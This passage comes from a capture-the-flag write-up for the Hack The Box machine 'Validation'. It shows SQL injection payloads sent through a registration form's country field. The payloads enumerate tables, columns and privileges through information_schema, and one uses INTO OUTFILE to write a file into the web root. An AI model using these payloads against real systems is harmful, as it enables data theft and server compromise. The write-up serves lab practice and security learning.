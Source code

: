 We are only interested for now in the database `registration`. We can query for tables with the following payload.
```
username=emvee&country=Brazil' union select table_name from information_schema.tables where table_schema = 'registration' -- -
```

Our payload should be send with Burp Suite Repeater.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204139.png){: width="700" height="400" }

Just like the previous steps we should check the response by submitting again the request to `account.php`. 

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204210.png){: width="700" height="400" }

In the results we have discovered the table `registration`. Since we don't know the columns yet we should enumerate them. We can try to enumerate the columns from the table `registration` with the following payload
```
username=emvee&country=Brazil' union select column_name from information_schema.columns where table_name = 'registration' -- -
```

This payload can be sent with Burp Suite Repeater.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204313.png){: width="700" height="400" }

Just like the previous steps we should check the response by submitting again the request to `account.php`. 

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204343.png){: width="700" height="400" }

There are four columns in the table registration.
- username
- userhash
- country
- regtime

We want to know what permissions we have. We can query this from the database with the following query
```
username=emvee&country=Brazil' union select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'" -- -
```

As soon as the payload is ready we should send it with Burp Suite.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204707.png){: width="700" height="400" }

Just like the previous steps we should check the response. Since the response has a large list we can use the `Render` button to get a nice list with permissions.

![Image](/assets/img/WriteUp/HTB/Validation/Pasted image 20240521204634.png){: width="700" height="400" }

Since we have `FILE` permissions we are able to write files to the system. We should try to make a simple text file to prove that we can write files. Our payload looks like this:
```
username=emvee&country=Brazil' union select "This file is written by eMVee" into outfile '/var/www/html/emvee.txt'-- -
```

